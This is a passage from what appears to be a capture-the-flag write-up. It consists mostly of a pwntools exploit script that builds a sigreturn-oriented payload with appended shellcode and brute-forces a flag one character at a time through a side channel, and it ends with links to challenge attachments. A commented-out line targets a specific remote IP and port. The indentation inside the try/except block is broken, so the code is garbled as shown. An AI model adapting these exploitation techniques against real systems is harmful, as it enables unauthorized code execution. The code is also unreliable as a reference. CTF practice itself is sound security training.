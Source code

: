 ```plain
            '''.format(dis,char))
    frame = SigreturnFrame()
    frame.rdi = 10
    frame.rsi = 0x404000
    frame.rdx = 0x1000
    frame.rcx = 7
    frame.rip = syscall
    frame.rsp = 0x4041ba
    pl = b'\x00'*0x52+p64(rax_15)+p64(syscall2)+bytes(frame)+p64(0x404260)
    pl = pl.ljust(0x200,b'\x00')
    pl+=shellcode
    sa('easyhack\n',pl)
    sa('SUID?\n',b'\x00'*(0x2a)+p64(0x404080)+p64(0x401421))
    s(b'\x00'*(0x2a)+p64(0x404080+0x2a)+p64(0x401421))
    s(p64(0x404060+0x2a+0x10))   

flag = ""

for i in range(len(flag),36):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        #p=remote('47.108.206.43',45461)
        try:
        exp(i,j)
        p.recvline(timeout=1)
        flag += chr(j)
        s('\n')
        log.success("{} pos : {} success".format(i,chr(j)))
        p.close()
        break
        except:           
        p.close()
```

![](assets/1703640353-c1a690c3008373b105f447e452f0cfec.gif)silent.zip (0.003 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231225192244-ecf08c90-a317-1.zip)

![](assets/1703640353-c1a690c3008373b105f447e452f0cfec.gif)side\_channel.zip (0.925 MB) [下载附件](https://xzfile.aliyuncs.com/upload/affix/20231225192247-eeb56cbc-a317-1.zip)
